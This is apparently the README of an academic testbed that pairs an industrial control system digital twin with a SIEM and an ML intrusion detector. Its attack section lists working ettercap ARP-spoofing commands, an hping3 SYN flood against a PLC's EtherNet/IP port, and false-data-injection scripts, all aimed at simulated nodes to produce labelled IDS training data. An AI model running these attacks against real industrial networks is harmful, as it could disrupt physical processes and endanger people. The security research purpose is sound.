 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose is as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
4. The script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and ids in browser.
    Kibana port 5601 , ids (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node)
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

Collected dataset is stored as 'data.csv' in logs folder.

Label the dataset using 'label.py' script.

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (False data injection): Run the following script to launch this attack for x minutes.
    ```
    python attack_fdi.py <x>
    ```
**Attack scenario 2, 3, 4** (MitM/DoS): Run the following commands for attacks 2, 3, 4 respectively.
    ```
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 
    ```
**Attack scenario 5** (TCP SYN flooding)
    ```
    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1
    ```
**Attack scenario 6,7,8** (MitM/Data tampering): Run the following commands for attacks 6, 7, 8 respectively.
    ```
    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH
    ```

Positive scaling by a constant scaling factor


**Running ML-based IDS**

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)
